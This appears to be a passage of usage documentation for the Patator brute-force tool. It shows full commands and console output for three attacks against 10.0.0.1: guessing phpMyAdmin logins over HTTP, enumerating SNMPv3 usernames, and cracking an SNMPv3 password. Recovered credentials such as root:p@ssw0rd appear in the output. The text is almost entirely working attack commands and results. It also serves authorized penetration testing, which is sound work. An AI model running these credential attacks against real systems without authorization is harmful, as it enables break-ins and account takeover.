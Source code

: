 * HTTP : Brute-force phpMyAdmin logon

```
$ http_fuzz url=http://10.0.0.1/phpmyadmin/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&lang=en' 0=combos.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
10:55:50 patator    INFO - Starting Patator v0.5 (http://code.google.com/p/patator/) at 2012-06-29 10:55 EST
10:55:50 patator    INFO - 
10:55:50 patator    INFO - code size:clen     | candidate                        |   num | mesg
10:55:50 patator    INFO - ----------------------------------------------------------------------
10:55:50 patator    INFO - 200  8209:7075     | root:                            |    22 | HTTP/1.1 200 OK
10:55:51 patator    INFO - 200  3838:2566     | root:p@ssw0rd                    |    44 | HTTP/1.1 200 OK
^C
10:55:52 patator    INFO - Hits/Done/Skip/Fail/Size: 2/125/0/0/2342, Avg: 47 r/s, Time: 0h 0m 2s
10:55:52 patator    INFO - To resume execution, pass --resume 12,13,12,13,12,12,13,13,13,12
```

Payload #22 was a false positive:

```
$ cat /tmp/qsdf/22_200_8209\:7075.txt
...
<div class="error">Login without a password is forbidden by configuration (see AllowNoPassword)</div>
```

* SNMPv3 : Find valid usernames

```
$ snmp_login host=10.0.0.1 version=3 user=FILE0 0=logins.txt -x ignore:mesg=unknownUserName
17:51:06 patator    INFO - Starting Patator v0.5
17:51:06 patator    INFO - 
17:51:06 patator    INFO - code  size | candidate                          |   num | mesg
17:51:06 patator    INFO - ----------------------------------------------------------------------
17:51:11 patator    INFO - 0-0   11   | robert                             |    55 | wrongDigest
17:51:12 patator    INFO - Progress:  20% (70/345) | Speed: 10 r/s | ETC: 17:51:38 (00:00:26 remaining)
17:51:33 patator    INFO - 0-0   11   | myuser                             |   311 | wrongDigest
17:51:36 patator    INFO - Hits/Done/Skip/Fail/Size: 2/345/0/0/345, Avg: 11 r/s, Time: 0h 0m 30s
```

* SNMPv3 : Find valid passwords

```
$ snmp_login host=10.0.0.1 version=3 user=robert auth_key=FILE0 0=passwords_8+.txt -x ignore:mesg=wrongDigest
17:52:15 patator    INFO - Starting Patator v0.5
17:52:15 patator    INFO - 
17:52:15 patator    INFO - code  size | candidate                          |   num | mesg
17:52:15 patator    INFO - ----------------------------------------------------------------------
17:52:16 patator    INFO - 0-0   69   | password123                        |    16 | Linux thug 2.6.36-gentoo #5 SMP Fri Aug 12 14:49:51 CEST 2011 i686
17:52:17 patator    INFO - Hits/Done/Skip/Fail/Size: 1/50/0/0/50, Avg: 38 r/s, Time: 0h 0m 1s
```
